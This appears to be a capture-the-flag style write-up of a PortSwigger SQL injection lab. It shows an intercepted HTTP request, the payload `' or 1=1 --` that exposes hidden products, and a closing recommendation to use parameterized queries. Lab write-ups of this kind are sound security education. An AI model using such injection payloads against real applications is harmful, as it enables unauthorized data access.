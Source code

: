 
<p align="center">
  <img src="./screenshots/sql_logo.png" alt="sql_logo"/>
</p>

---

- 🎯 **Target:** PortSwigger SQL injection Lab - vulnerability in WHERE clause allowing retrieval of hidden data
- 🧑‍💻 **Author:** sonyahack1
- 📅 **Date:** 10.05.2025
- 📊 **Difficulty:** APPRENTICE
- 📁 **Category:** Web - SQL injection (Boolean-Based)

---

## 🔍 Intercepting request 

> I intercept the request in the product category filter in BurpSuite:

```http

GET /filter?category=Pets HTTP/2
Host: 0ad20070035e51de80f5531f000400cf.web-security-academy.net
Cookie: session=JwFMOw2KWBHSBohtlqtnlcSF1rm0vHQa
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ad20070035e51de80f5531f000400cf.web-security-academy.net/filter?category=Corporate+gifts
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```

> Need to force the application to display additional hidden products on the page.

> Testing SQL injection in the `category` parameter using a logical expression (Boolean-Based SQL injection):

```http

GET /filter?category=' or 1=1 -- HTTP/2

```

> **Result: display unreleased products**
![unreleased_product](./screenshots/unreleased_product.png)

> It's work.

> **Note** this works because `OR 1=1` always returns `true`; `--` symbol is used as a comment in SQL syntax. Anything after it is ignored.
> So it turns out that the logical expression with `or` in this case with `WHERE category = '' or 1=1` results in all rows from the `products` table being selected without filtering
> by category.

> **Result: solved lab**
![solved_lab](./screenshots/solved_lab.png)

## conclusion

> To protect against Boolean-Based SQL injection, you can use prepared statements. That is, instead of substituting data directly into the SQL string `"SELECT * FROM products WHERE category = '" + user_input + "'"`
> use `cursor.execute("SELECT * FROM products WHERE category = ?", (user_input,))`. This way, user input is not interpreted as part of the SQL query.

> You also need to escape the quote characters - `' '` and `" "` (but it is better to use parameterization).

